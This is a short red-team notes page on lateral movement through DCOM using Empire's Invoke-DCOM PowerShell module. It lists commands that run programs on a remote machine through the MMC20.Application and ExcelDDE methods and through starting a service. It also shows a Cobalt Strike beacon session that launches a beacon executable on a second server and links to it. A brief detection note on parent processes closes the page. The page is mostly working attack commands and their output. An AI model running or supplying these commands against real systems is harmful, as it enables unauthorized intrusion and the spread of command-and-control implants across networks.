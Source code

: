 # Invoke-DCOM

## [[DCOM]]
```
Import-Module .\Invoke-DCOM.ps1
Invoke-DCOM -ComputerName '192.168.2.100' -Method MMC20.Application -Command "calc.exe"
Invoke-DCOM -ComputerName '192.168.2.100' -Method ExcelDDE -Command "calc.exe"
Invoke-DCOM -ComputerName '192.168.2.100' -Method ServiceStart "MyService"
```

To interact over Distributed Component Object Model (DCOM), we must use an external tool such as [[Invoke-DCOM]].
``````beacon
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
Completed

beacon> link srv1
[+] established link to child beacon: 10.10.1.20
``````

DCOM is more complicated to detect, since each "Method" works in a different way. In the particular case of `MMC20.Application`, the spawned process will be a child of `mmc.exe`.

``````
ProcessId: 952
Image: C:\Windows\beacon-smb.exe
ParentImage: C:\Windows\System32\mmc.exe
``````  
Processes started via DCOM may also be seen where the parent is `svchost.exe` (started with the command line `-k DcomLaunch`).

```meta
requirements: 
results: 
oss: #win
source: https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
description: Lateral Move via DCOM
```